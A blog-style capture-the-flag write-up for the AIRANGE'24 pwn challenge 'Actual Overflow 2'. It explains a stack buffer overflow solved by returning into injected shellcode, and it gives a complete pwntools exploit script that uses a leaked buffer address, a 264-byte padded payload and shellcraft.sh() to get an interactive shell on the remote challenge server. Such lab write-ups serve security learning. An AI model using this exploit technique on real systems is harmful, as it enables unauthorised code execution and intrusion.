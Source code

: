 ```yaml
---
title: AIRANGE'24 - Pwn - Actual Overflow 2
date: '2024-04-16'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'pwntools', 'overflow']
draft: false
summary: It was my first proper buffer over challenge that i solved
---
```


## Challenge Description

What can you do if I don't give you a function for the flag?

[Download](https://airange.online/files/94259d51f0eb9b7ab3bf3fb3b26c6df9/actual_overflow_2.tar?token=eyJ1c2VyX2lkIjo0NSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MzN9.Zh_R0Q.aOTL_0aXqSOi7O7Knx6XpKiSXhQ)

## Solution

In the code it can be seen that there is no flag function but rather a function that just prints the string that we enter.

*image*

so for this challenge we have to return to shell code so that we can extract the flag.txt,

This can be done by overflowing the buffer and sending the address of buffer that stores input, but with a slight twist that instead of sending just a value or a byte we will inject the shell code in the start of buffer overflow so the next the address that we send after buffer overflow it will redirect to the same buffer again but this time it will execute the shell code. just run the command “**cat flag.txt**”

***you can find the shell code online (but send it as little endian format) as well but the good practice is to use the pwn tools for this you have to give context of the architecture and just use this line it will create a shell code for you***

```python
# context of the ***architecture*** 
context.arch='x86_64'
# function to create shell code.
some variable = asm(shellcraft.sh())
```

**EXPLOIT:**

```python
from pwn import *
context.arch='x86_64'
io = remote("143.198.227.172", 32777)

io.recvuntil(b"u: ")

leak = int(io.recvline().strip(), 16)

print("Leaked address:", hex(leak))

shellcode = asm(shellcraft.sh())

padding = b"A" * (264 - len(shellcode)) 

payload = shellcode + padding + p64(leak)

io.sendline(payload)

io.interactive()
```
![Screenshot_2024-03-08_12-58-17.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/09b77bf4-1452-421f-99f6-d0fb986688b0/f0512643-db41-4246-a335-dcc49a49cef1/Screenshot_2024-03-08_12-58-17.png)